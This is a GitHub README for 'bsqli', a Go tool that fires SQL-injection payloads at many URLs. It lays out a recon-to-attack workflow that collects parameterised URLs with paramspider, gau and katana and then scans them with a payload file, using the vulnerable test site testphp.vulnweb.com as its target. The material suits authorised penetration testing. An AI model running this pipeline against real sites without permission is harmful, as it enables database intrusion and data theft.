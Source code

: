 # bsqli

Perfrom GET requests to multiple URLs with different payloads.

Made by `Coffinxp`

## Installation

```bash
go install github.com/SpeedyQweku/bsqli@latest
```

## BEST SQLI METHODLOGY BY ME

### For single url

```bash
bsqli -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 50
```

### For multiple urls

```bash
paramspider -d testphp.vulnweb.com -o urls.txt
```

```bash
cat output/urls.txt | sed 's/FUZZ//g' >final.txt
```

```bash
bsqli -l final.txt -p payloads/xor.txt -t 50
```

```bash
echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt
```

```bash
cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt
```

```bash
cat output.txt | sed 's/=.*/=/' >final.txt
```

```bash
bsqli -l final.txt -p payloads/xor.txt -t 50
```

```bash
echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt
```

```bash
katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt
```

```bash
cat output.txt | sed 's/=.*/=/' >final.txt
```

```bash
bsqli -l final.txt -p payloads/xor.txt -t 50
```

### Note

It is just a rewrite of the Python Version. This Tool is all thanks to `Coffinxp`.
